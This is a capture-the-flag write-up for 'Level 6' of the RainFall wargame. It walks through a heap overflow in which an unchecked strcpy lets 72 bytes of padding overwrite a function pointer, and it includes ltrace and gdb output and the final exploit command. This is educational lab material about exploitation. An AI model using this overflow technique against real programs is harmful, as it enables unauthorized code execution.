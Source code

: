 # Level 6

In the source, we see two functions m and n.
In the main there is a function pointer being set to m which just prints "Nope". But n would print out the flag for us.
If only we could call it!

In comes strcpy to save the day.
Because the `char* dest` is located before our function pointer in memory, we can override it by overflowing the buffer.

As we can see, the strcpy copies over the entire argv[1] without checking the size.


We can get the return addresses from malloc by running `ltrace`.
```shell
level6@RainFall:~$ ltrace ./level6 
__libc_start_main(0x804847c, 1, 0xbffff7f4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                                      = 0x0804a008
malloc(4)                                                       = 0x0804a050
strcpy(0x0804a008, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
level6@RainFall:~$ 
```
*It segfaults because strcpy expects an argument from `argv`*

Let's try to write more data to our buffer and check what it does in memory:
```shell
level6@RainFall:~$ gdb -q level6 
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) b *main+78
Breakpoint 1 at 0x80484ca
(gdb) run $(python -c 'print 72*"A"')
Starting program: /home/user/level6/level6 $(python -c 'print 72*"A"')

Breakpoint 1, 0x080484ca in main ()
(gdb) x/40x 0x0804a008
0x804a008:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a048:	0x41414141	0x41414141	0x08048400	0x00000000
0x804a058:	0x00000000	0x00020fa9	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) 
```

We can see that after 72 characters we can rewrite the address of the following malloc region with what we want to call, let's do just that:
```shell
level6@RainFall:~$ ./level6 $(python -c 'print 72 * "A" + "\x54\x84\x04\x08"')
[...]
```

